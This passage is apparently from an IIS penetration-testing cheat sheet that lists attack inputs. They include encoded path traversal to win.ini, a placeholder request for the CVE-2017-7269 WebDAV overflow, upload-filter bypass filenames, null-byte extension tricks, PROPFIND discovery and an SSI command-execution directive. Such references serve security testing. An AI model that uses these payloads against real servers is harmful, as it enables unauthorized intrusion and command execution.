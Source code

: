You can bypass weak URL encoding protections by encoding traversal sequences.

`/%2e%2e/%2e%2e/windows/win.ini`

## CVE-2017-7269 (WebDAV Remote Code Execution on IIS 6.0):

IIS 6.0 with WebDAV enabled has a buffer overflow vulnerability that can lead to RCE.

```
POST /<Buffer_Overflow_Payload> HTTP/1.1
Host: victim.com
Translate: f
```

## MS-DOS Device Names to Bypass Access Controls:

Using reserved MS-DOS device names like CON, PRN, AUX, and NUL, you can bypass certain upload restrictions.

```
shell.aspx::$DATA
CON.asp
PRN.aspx

```

## Bypass Request Filtering with Null Byte Injection:

Sometimes, appending a null byte to file extensions can bypass strict file extension filtering.

`/file.asp%00.jpg`

## IIS HTTP/2 Vulnerabilities:

IIS versions with HTTP/2 support are prone to various vulnerabilities like denial of service.

Use tools like:

`h2csmuggle - a tool to test HTTP/2 downgrades and smuggling.`

## IIS Hidden Endpoints Discovery (PROPFIND method):

Using HTTP methods like PROPFIND, you can sometimes discover hidden directories and files in IIS.

`curl -X PROPFIND http://example.com/`

## Server-Side Include (SSI) Injection:

If the server allows SSI, try injecting SSI directives in file upload or input fields.

`<!--#exec cmd="dir"-->`

## Enumerating IIS Application Pools:
